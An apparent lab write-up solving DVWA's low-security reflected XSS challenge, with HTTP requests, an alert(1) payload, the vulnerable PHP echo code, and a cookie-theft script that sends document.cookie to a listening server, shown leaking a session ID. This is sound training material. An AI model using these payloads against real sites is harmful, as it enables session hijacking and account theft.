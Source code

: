 #+TITLE: DVWA - XSS Reflected Low
#+AUTHOR: Leonardo Tamiano

* Description
  We see a form that prints what we put in the input box

  [[./img/form.png]]
  
  The following GET is perform to update the code displayed by the server

  #+begin_example
GET /vulnerabilities/xss_r/?name=leonardo HTTP/1.1
Host: evil
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_r/?name=%3Cscript%3E+alert%281%29%3B+%3C%2Fscript%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=301dckse7uvq2hn6dbmu9o62t2; security=low
Connection: close
  #+end_example

* Solution
  The idea is to simply inject javascript code with the following payload

  #+begin_example
<script> alert(1); </script>
  #+end_example

  and we trigger the javascript code

  [[./img/xss_low.png]]

  The HTTP request is as follows

  #+begin_example
GET /vulnerabilities/xss_r/?name=%3Cscript%3E+alert%281%29%3B+%3C%2Fscript%3E HTTP/1.1
Host: evil
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_r/?name=leonardo
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=301dckse7uvq2hn6dbmu9o62t2; security=low
Connection: close

  #+end_example

  To actually leak the php cookie to a malcious server we can first
  start a python web server

  #+begin_src sh
python3 -m http.server 1337
  #+end_src

  and then we use the following malicious javascript

  #+begin_src javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', `http://localhost:1337/${document.cookie}`, false);
xhr.send(null);
  #+end_src

  with we can embedd in the following malicious URL

  #+begin_example
http://evil/vulnerabilities/xss_r/?name=%3Cscript%3E+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27GET%27%2C+%60http%3A%2F%2Flocalhost%3A1337%2F%24%7Bdocument.cookie%7D%60%2C+false%29%3B+xhr.send%28null%29%3B+%3C%2Fscript%3E
  #+end_example

  When the user clicks on that link in our python server we see the
  cookie being leaked

  #+begin_example
[leo@archlinux xss_reflected]$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [07/Nov/2023 18:57:08] code 404, message File not found
127.0.0.1 - - [07/Nov/2023 18:57:08] "GET /PHPSESSID=301dckse7uvq2hn6dbmu9o62t2;%20security=low HTTP/1.1
  #+end_example

  
* Code
  The code is really simple, it simply does an ~echo~ of the user
  supplied variable, which means we can put any sort of javascript and
  the browser will interpret it as legal js

  #+begin_src php
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
  #+end_src
